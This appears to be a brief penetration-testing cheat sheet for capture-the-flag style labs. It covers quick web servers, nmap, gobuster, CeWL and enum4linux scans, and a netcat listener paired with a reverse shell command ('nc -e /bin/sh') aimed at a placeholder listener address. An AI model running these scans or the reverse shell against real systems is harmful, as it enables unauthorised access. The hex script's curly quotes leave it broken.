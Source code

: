 # CheatSheet

## Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```
### Ruby
```ruby
ruby -run -e httpd . -p 8000
```
## nmap
```shell-script
nmap -sC -sV -oA nmap/openadmin 10.10.10.171
```
## gobuster
```bash
gobuster dir -u http:10.10.10.10/ -w /path/to/wordlist
```
##  CeWL
```bash
cewl -d 2 -m 5 -w genwords.txt https://10.10.10.10
```
## [enum4linux](https://tools.kali.org/information-gathering/enum4linux)
```bash
enum4linux -U -o 10.10.10.10
```
## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### Set Reverse Shell on Target
```bash
nc -e /bin/sh IP.OF.LISTENER 4000
```
## Usefuls Scripts
### HEX Converter
```bash
#!/bin/bash
echo $1 | tr -d “\n” | hexdump -e ‘16/1 “%02x “ “\n”
```
